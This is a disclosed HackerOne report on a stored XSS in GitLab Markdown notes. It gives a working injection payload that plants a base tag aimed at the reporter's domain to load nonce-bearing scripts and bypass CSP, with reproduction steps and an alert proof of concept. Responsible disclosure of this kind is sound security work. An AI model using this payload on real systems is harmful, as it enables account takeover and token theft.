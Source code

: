# Stored XSS in Notes (with CSP bypass for gitlab.com)

## Report Details
- **Report ID**: 1481207
- **URL**: https://hackerone.com/reports/1481207
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-02-14T20:54:27.751Z
- **Disclosed**: 2022-05-25T12:09:13.538Z

## Reporter
- **Username**: joaxcar
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
## Summary
I read the issue [345657](https://gitlab.com/gitlab-org/gitlab/-/issues/345657) which handles the XSS in notes reported in Hackerone report [1398305](https://hackerone.com/reports/1398305). This issue fixes the reported XSS but leaves the HTML injection that was also mentioned. I don't know how you deal with these situations, but I thought I report this, and you can decide :)

The issue linked above shows how a user can inject HTML in any Note (actually any Markdown it seems. For example wiki pages and issue descriptions) by abusing [syntax_highlight_filter.rb](https://gitlab.com/gitlab-org/gitlab/-/blob/c2e5d7b89b84cc5b44575592bb706ef75c3d1bbb/lib/banzai/filter/syntax_highlight_filter.rb).

There are more ways to take this injection and weaponize it than the patched Emoji tag. I have a list of additional vectors but though that I would report the worst one (proper full stored XSS) and explain more if you decide to accept the report. To not waste our time.

I have multiple ways to inject `script` tags, but it looks like you have hardened your CSP? None of the old bypasses worked for me. But it still seems that you have not blocked the `base` tag. And fortunately for me, the injection let me pass in `base` tags. So by entering this into an issue description or wiki page

```
<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre>
<base href=https://joaxcar.com>
<pre x=&#34;">
<code></code></pre>
```
All relative links in the page will try to load their data from my site "joaxar.com". If we then open DevTools and reload the page, we will see the name of all files that failed to load. In the case of an issue page, we have this script
```
http://joaxcar.com/assets/webpack/hello.4948f350.chunk.js
```
and for a wiki page we have
```
https://joaxcar.com/assets/webpack/top_nav.c9763726.chunk.js
```
{F1618905}

Now I just have to create these files on my domain, and they will load and bypass CSP (as these script tags will have nonce in place and can thus load anything)

{F1618900}

## Steps to reproduce
1. log in as a user on Gitlab.com
2. go to any project (or create one), and add a new issue
3. enter this as the description (replace with your own server if you need to generate new scripts on your own domain)
```
<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre>
<base href=https://joaxcar.com>
<pre x=&#34;">
<code></code></pre>
```
4. save the issue
5. open DevTools (f12) and look for failing script imports
6. create the missing script on your domain containing
```
alert(document.domain)
```
7. reload the page and the popup should pop

{F1618901}


### Impact

Stored XSS in gitlab.com

There are more that can be added to the report but I am sending this in first and will add information later. The XSS can as you know create tokens (and as I have shown before take over SSO accounts)

### What is the current *bug* behavior?

HTML injection in Markdown

### What is the expected *correct* behavior?

Should not be possible

### Output of checks

This bug happens on GitLab.com

## Impact

Stored XSS in gitlab.com

There are more that can be added to the report but I am sending this in first and will add information later. The XSS can as you know create tokens (and as I have shown before take over SSO accounts)

## Attachments
- payload.jpg
- xssbase.jpg
- after.png
